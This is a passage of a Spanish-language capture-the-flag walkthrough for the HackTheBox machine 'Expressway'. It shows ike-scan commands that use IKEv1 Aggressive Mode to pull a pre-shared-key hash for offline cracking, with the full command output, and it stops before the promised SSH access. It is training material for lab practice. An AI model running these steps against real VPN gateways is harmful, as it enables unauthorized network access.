 <br>

Lo importante aquí:
* Se pudo identificar el **Aggressive Mode (IKEv1)**, que nos puede permitir obtener el **PSK**.
* La autenticación **Auth=PSK** más la presencia de **Hash(20 bytes)**, nos indica que es posible crackear de forma offline si es que podemos obtener el **PSK**
* El uso del **XAUTH**, que nos indica el posible uso obligatorio de credenciales extras para la autenticación.
* Y tenemos una identidad de tipo **ID_USER_FQDN** con el valor `ike@expressway.htb`.

Tratemos de obtener el **PSK**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="PSK">Obtención y Crackeo de PSK y Ganando Acceso a la Máquina Víctima Vía SSH</h2>

Podemos aplicar 2 formas para intentar obtener el **PSK** con la herramienta **ike-scan**.

La primera sería usando la flag `--pskcrack` para obtener el **PSK** de forma directa:
```bash
ike-scan -A --pskcrack 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87	Aggressive Mode Handshake returned HDR=(CKY-R=c1936d1c28da6029) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
0b3aca1bac7c6632ac1dbbcb8a7959aee25c0a8c7b89d0e4246ef3e21e760eb9f02661ca3efaad08065b7adf7c98ac18a4829a98abdf761e1e120edbd8cc2d19214ce587d33498c1d61ddea55b429caeeaacff4d8f4d7c489e691a6c44826250e95e1cd2feafdb1ee72f0349cfae552751ea5357d8aa6bc9ec30fe645bde514e:f49d76eb68034f139359cfafff7b8f5dcde6fcf053b5637e2269bbe88a833acbb8c51e48fd9da13e45423662a78750861424acc4b570414f7171cb6365db8283a86fd1237b4de5b0ae4b16771d9eb1ffd010b640deda506e0f3c913ecb50da732a0e8326f5f97a16dead2474d1771af49262908ec2046242f0697da7d5680e93:c1936d1c28da6029:eea09bda60a0ba69:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:292f43f49fa8997a3ce63c41fb3631d2fe4938e9:0730335c68c68630e479ec8e87302446d2f9dd691428a03b974932e5f887fcce:f760963359540ef23665a1fd726ab99fa423e232
Ending ike-scan 1.9.6: 1 hosts scanned in 0.082 seconds (12.20 hosts/sec).  1 returned handshake; 0 returned notify
```
Ahí lo tenemos, es todo ese hash debajo del **IKE PSK parameters**.

La segunda sería usando la flag `-P` (que es lo mismo que la flag `--pskcrack`), pero si le agregamos enseguida un nombre, se generará un archivo con el nombre que diste y contendrá la **PSK**:
```bash
ike-scan -M -A -Pike_psk.params 10.10.11.87
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=061b5594bfb4535f)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

```